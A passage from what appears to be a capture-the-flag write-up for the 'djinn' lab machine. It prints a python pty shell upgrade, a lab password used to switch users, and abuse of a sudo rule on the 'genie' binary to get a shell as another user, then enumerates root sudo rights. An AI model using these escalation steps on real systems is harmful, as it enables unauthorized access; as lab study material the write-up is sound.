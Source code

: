 Then I switch to the nitish user with the found credentials.

```bash
www-data@djinn:/home/nitish/.dev$ su nitish 
su: must be run from a terminal
www-data@djinn:/home/nitish/.dev$ python -c 'import pty;pty.spawn("/bin/bash")'
<.dev$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@djinn:/home/nitish/.dev$ su nitish
Password: p4ssw0rdStr3r0n9

nitish@djinn:~/.dev$ id
uid=1001(nitish) gid=1001(nitish) groups=1001(nitish)
```

By listing the sudo permissions, the nitish user can execute the genie binary with sudo as the sam user.

```bash
nitish@djinn:~$ sudo -l
Matching Defaults entries for nitish on djinn:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nitish may run the following commands on djinn:
    (sam) NOPASSWD: /usr/bin/genie
```

To escalate to the **sam** user and get a shell I used the following instruction.

```bash
nitish@djinn:~$ sudo -u sam /usr/bin/genie -g god -e id -cmd
my man!!
$ id
uid=1000(sam) gid=1000(sam) groups=1000(sam),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd),113(lpadmin),114(sambashare)
$ whoami
sam
$ bash
sam@djinn:~$ 
```



## Privilege Escalation
### Sudo Permissions
Enumerating for sudo permissions I found that the sam user can run the **lago** binary as the root user.

```bash
sam@djinn:~$ sudo -l
Matching Defaults entries for sam on djinn:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sam may run the following commands on djinn:
    (root) NOPASSWD: /root/lago
```
I run the **lago** script with sudo permissions, but I can't find a way to get root. 
